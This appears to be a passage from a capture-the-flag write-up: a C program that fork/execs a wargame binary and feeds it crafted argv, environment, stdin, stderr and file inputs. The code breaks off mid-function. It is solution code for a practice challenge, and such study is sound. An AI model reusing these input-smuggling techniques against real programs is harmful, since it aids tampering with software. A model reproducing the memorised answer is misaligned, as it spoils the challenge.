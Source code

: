 files:
- File should be named "\x0a" and we should write "\x00" 4 times into the file. Initially some problems occurred with creating the file but when making my own directory inside tmp and running the exploit from inside it fixed the problems

Updated script looks like this:
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/wait.h>
#include <string.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <errno.h>
#define INPUT_SIZE 100

int main(int argc, char* argv[]) {
    int pipe_stdin[2];  // Pipe for stdin
    int pipe_stderr[2]; // Pipe for stderr

    if (pipe(pipe_stdin) == -1 || pipe(pipe_stderr) == -1) {
        return 0;
    }
     int pid = fork();
     if (pid == 0) {  // Child process
        dup2(pipe_stdin[0], 0);  // Replace stdin with pipe read end
        dup2(pipe_stderr[0], 2); // Replace stderr with pipe read end
        close(pipe_stdin[1]);
        close(pipe_stdin[0]);
        close(pipe_stderr[1]);
        close(pipe_stderr[0]);
        const char *input_argv[INPUT_SIZE + 1];
        input_argv[0] = "/home/input2/input";
        for (int i = 1; i <= INPUT_SIZE; i++) {
            if (i == 'A') {
                input_argv[i] = "\x00";
            } else if (i == 'B') {
                input_argv[i] = "\x20\x0a\x0d";
            } else if (i == INPUT_SIZE) {
                input_argv[i] = NULL; 
            } else {
                input_argv[i] = "\xAA";
            }
        }
        const char *input_envp[2];
        input_envp[0] = "\xde\xad\xbe\xef\x3d\xca\xfe\xba\xbe"; 
        input_envp[1] = NULL; 
        FILE *fp = fopen("\x0a", "wb");
        if (!fp) {
            printf("fopen\n");
            return 0;
        }
        if (fwrite("\x00\x00\x00\x00", 1, 4, fp) < 4){
            printf("fwrite\n");
            printf("Error details: %s\n", strerror(errno));
            return 0;
        }
        fclose(fp);
        execve(input_argv[0], (char* const*)input_argv, (char* const*)input_envp);
    }
    else {  // Parent process
        close(pipe_stdin[0]);
        close(pipe_stderr[0]);
        write(pipe_stdin[1], "\x00\x0a\x00\xff", 4);
        write(pipe_stderr[1], "\x00\x0a\x02\xff", 4);